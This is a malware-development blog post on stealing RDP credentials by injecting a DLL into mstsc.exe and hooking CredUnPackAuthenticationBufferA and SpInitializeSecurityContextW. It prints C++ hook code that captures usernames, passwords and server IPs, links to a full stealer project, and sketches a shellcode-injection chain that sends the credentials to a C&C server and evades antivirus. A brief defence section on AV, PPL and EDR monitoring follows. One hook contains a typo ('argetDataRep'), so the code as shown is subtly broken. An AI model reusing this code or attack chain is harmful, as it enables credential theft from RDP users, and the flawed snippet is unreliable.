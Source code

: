```yaml
---
layout: post
title: "Stealing rdp credentials"
date: 2024-08-30 12:00:00
tags : [maldev, windows]
---
```


# Disclamer

First of all, a small disclaimer. The author does not encourage you to use the project shown in this article to steal other people's authorization data. This article explains how attackers can steal your authorization data from mstsc.exe ( WINDOWS RDP CLIENT ) and how to detect it.

# Introduction

As you have already understood from the title, today we are going to talk about stealing RDP authorization data from the mstsc.exe client and how to detect this type of attack. It is probably worth noting that there are several similar projects on Github that implement this technique, RDPCredentialStealer, RDP-THIEF. They all use almost the same technique, which we are going to break down today. Let's get to the main part.

# Windows Credential Prompting 

When connecting to any server via mstsc.exe we enter data for authorization on the server. To request authorization data in Windows we use "Credui.dll" library, its api is completely open, you can see it [here](https://learn.microsoft.com/en-us/windows/win32/api/wincred/).

I think many people who have connected to Windows servers have seen this window : 

![Credentials_Enter_Win11_Window](/posts_assets/stealing_rdp_credentials/credentials_enter_win11_window.png).

Or this window :

![Credentials_Enter_Win10_Window](/posts_assets/stealing_rdp_credentials/credentials_enter_win10_window.png)

Both windows are called by the CredUIPromptForWindowsCredentialsA/W function to retrieve the authorization data ( The first screenshot shows the interface of the newer Windows 11 and the second shows Windows 10 ). After successful entry, the data is stored in a packed blob structure. If the program wants to get the credentials in text format, it can use the CredUnPackAuthenticationBufferA/W function.

# Stealing rdp credentials

Due to the fact that the request and input of authorization data occurs in the same process mstsc.exe we can easily intercept the entered data. The most obvious option is to inject our library into the process and hook the functions we need using the hook technique. Hooks allow us to replace any function in the program with our own. In this case, the hook will be a proxy function, which will allow us not to lose the functionality of our application. If you want to learn more about this technique you can read these articles [here](https://medium.com/geekculture/basic-windows-api-hooking-acb8d275e9b8) and [here](https://cocomelonc.github.io/tutorial/2021/11/30/basic-hooking-1.html). To install the hooks I decided to use the most convenient library for me, namely Minhook, in theory you could use Detours or write your own library from scratch. We will hook exactly CredUnPackAuthenticationBufferA/W, because it decode the Blob'a that was obtained from the CredUIPromptForWindowsCredentialsA/W function. Below is the code of the hook function : 

```cpp 
BOOL hCredUnPackAuthenticationBufferA(
    DWORD dwFlags,
    PVOID pAuthBuffer,
    DWORD cbAuthBuffer,
    LPSTR pszUserName,
    DWORD* pcchlMaxUserName,
    LPSTR pszDomainName,
    DWORD* pcchMaxDomainName,
    LPSTR pszPassword,
    DWORD* pcchMaxPassword
) {

    BOOL status = reinterpret_cast<tCredUnPackAuthenticationBufferA>(oCredUnPackAuthenticationBufferA)(dwFlags, pAuthBuffer, cbAuthBuffer, pszUserName, pcchlMaxUserName, pszDomainName, pcchMaxDomainName, pszPassword, pcchMaxPassword);

    wprintf(L"[ + ] Dumped creds -> username : %s : domain : %s : password : %s \n", pszUserName, pszDomainName, pszPassword); 

    return status;
}
```

P.s If we set the hook to CredUIPromptForWindowsCredentialsA/W, we would have to call CredUnPackAuthenticationBufferA/W separately, and this is additional and unnecessary work.

Well, we have received the data for logging on to the server, but we still haven't found out its ip address. Obviously, it is passed to some Windows Api function and we just need to find such a function. In the course of small searches we found several functions that get the Ip address of the target server when requesting authorization. These functions are "CredReadW" from "Advapi32.dll" library, "SpInitializeSecurityContextW" from "credssp.dll" library. I decided to hook "SpInitializeSecurityContextW" because I found it first of these 2. The code of the hook looks like this :

```cpp
long long hSpInitializeSecurityContextW(void* phCredential,
    void* phContext,
    void* pszTargetName,
    unsigned long  fContextReq,
    unsigned long  Reserved1,
    unsigned long  TargetDataRep,
    void* pInput,
    unsigned long  Reserved2,
    void* phNewContext,
    void* pOutput,
    unsigned long* pfContextAttr,
    void* ptsExpiry) {


    if (pszTargetName != nullptr) {
        wprintf(L"[ + ] Leaked ip -> %s \n", pszTargetName);
    }

    return reinterpret_cast<tSpInitializeSecurityContextW>(oSpInitializeSecurityContextW)(phCredential ,phContext, pszTargetName,
fContextReq, Reserved1, argetDataRep, pInput, Reserved2, phNewContext, pOutput,pfContextAttr, ptsExpiry);
}
```

Injecting the library in the "mstsc.exe" process and authorize to the server, and get this output : 

![stealed_credentials_output](/posts_assets/stealing_rdp_credentials/stealed_credentials_output.png)

You can see the full project code at this [link](https://github.com/ch4daev/rdp_credentials_stealer) 

# Possible attack vector

Here I would like to discuss one of the possible attack vectors that can be used by an attacker in combination with this technique. 

Let's assume that the attacker has already established a foothold in our system with the help of his backdoor and can perform any necessary actions on victim machine. In its current form, our technique will be detected by any, even the simplest built-in or installed AV. So what can an attacker do to hide the malware from AV eyes? The most obvious way is to turn the malware into a position-independent shellcode that will be injected into the mstsc.exe process whenever it is start in the system. After initializing in the process and installing hooks, it would wait for user input and once received, send it to the C&C server. Here is how I have outlined the approximate attack vector : 

![possible_attack_vector](/posts_assets/stealing_rdp_credentials/possible_attack_vector.png)

Actions that occur in the same process are highlighted in one color for convenience

# How to defence

For regular users, a good AV with a constantly updated threat database, as cliché and silly as it may sound, can protect against this type of threat. Ordinary users usually do not use corporate EDR systems for which a protection specialist can write rules that can be extremely useful in detecting this type of threats.

P.s I had a good option for regular users, but I couldn't release it. I wanted to try to configure the mstsc.exe process as a PPL (Protect Process Light) process, in this case no process in Ring 3 (user-mode) would be able to get a Handle to access the process memory and therefore write something to it, even with Administrator rights.

For corporate users with EDR it is necessary to control open Handles to the process mstsc.exe from unknown processes, as well as attempts to write to the virtual memory of the process. You can also control attempts to connect mstsc.exe to suspicious api addresses that do not match the white list of servers. You can also check the integrity of the process memory, in particular the credui.dll library.

As well as many etc.

# Summary 

In conclusion, I would like to say that the technique is very interesting, and it is not that difficult to implement for your own understanding. It is rather narrowly focused and probably won't be used to attack ordinary users, but there have probably been such cases.


